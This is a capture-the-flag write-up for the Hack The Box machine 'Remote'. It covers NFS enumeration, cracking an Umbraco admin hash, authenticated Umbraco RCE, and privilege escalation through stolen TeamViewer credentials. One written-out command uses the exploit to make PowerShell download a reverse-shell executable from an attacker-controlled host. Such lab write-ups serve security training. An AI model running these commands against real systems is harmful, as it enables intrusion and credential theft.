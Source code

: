 ```yaml
---
layout: single
title: Remote
date: 2020-12-24
classes: wide
tags:
  - htb
  - umbraco
  - metasploit
  - msfvenom
  - windows
  - winpeas
  - evil-winrm
---
```


![nmap](/assets/images/htb/remote/header.png)

### Port Scanning and general enumeration (Nmap, Umbraco)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)
  * [Umbraco](https://umbraco.com/)
 
`nmap -sC -sV -oN nmap/initial -T4 10.10.10.180`

![nmap](/assets/images/htb/remote/nmap.png)

Interesting. FTP, Webserver and maybe some nfs shares we can mount?

Let's take a look at the site

![nmap](/assets/images/htb/remote/site1.png)

Looks like some sort of blog.. 'Umbraco'?

![nmap](/assets/images/htb/remote/site2.png)

![nmap](/assets/images/htb/remote/login.png)

So we've found a login form. Nice. Default creds didn't work, so we'll come back to this.

Let's see if there's anything to mount

![nmap](/assets/images/htb/remote/showmount.png)

Interesting! Let's mount it

`sudo mount -t nfs 10.10.10.180:/site_backups /path/to/where/you/want/to/save/it`

Full site backup!

Since we know the backend is **Umbraco**, we can find the version in the `Web.config` file and credentials in the `App_Data/Umbraco.sdf` file.

Version:

![nmap](/assets/images/htb/remote/version.png)

To get the credentials we can run `strings` on the `Umbraco.sdf` file, redirect it to a file and run `head` on that file

![nmap](/assets/images/htb/remote/creds.png)

So the admin password is a `SHA1` hash. Let's crack it and log in using `Admin@htb.local:cracked-password` in the forms we found earlier.

---

### Access (Umbraco RCE, msfvenom)
* Reading/Resources
  * [Umbraco RCE](https://github.com/noraj/Umbraco-RCE)
  * [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
  * [Metasploit](https://www.metasploit.com/)
  

So now that we're authenticated we have a little more room to play with things. I found this [Umbraco RCE](https://github.com/noraj/Umbraco-RCE) script that should be perfect

![nmap](/assets/images/htb/remote/rce.png)

Nice! So now we have remote code execution. Let's get a proper shell

![nmap](/assets/images/remote/msfvenom.png)

Stand up a simple [python http server](https://docs.python.org/3/library/http.server.html) and use the exploit to transfer our executable to the machine

`python3 exploit.py -u admin@htb.local -p password -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command Invoke-WebRequest -Uri http://10.10.14.22:8000/rev.exe -OutFile C:/Users/Public/rev.exe`

Now that our shell is on the box, let's fire up a `metasploit` listener

![nmap](/assets/images/htb/remote/listener.png)

Trigger the shell and off we go

---

### Privesc (winPEAS, evil-winrm)
* Reading/Resources
  * [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)

Now that we're on the box, let's do some enumeration. I like [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Upload and run it

![nmap](/assets/images/htb/remote/peasupload.png)

![nmap](/assets/images/htb/remote/peas.png)

Interesting. Teamviewer7 also has a [metasploit module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/teamviewer_passwords.md). Let's see what that has for us

Background your meterpreter session and

![nmap](/assets/images/htb/remote/teamviewersearch.png)

![nmap](/assets/images/htb/remote/teamviewerpassword.png)

Could that be the **Admin** password? Let's check using [evil-winrm](https://github.com/Hackplayers/evil-winrm)

![nmap](/assets/images/htb/remote/admin.png)

![nmap](/assets/images/htb/remote/userflag.png)

![nmap](/assets/images/htb/remote/rootflag.png)
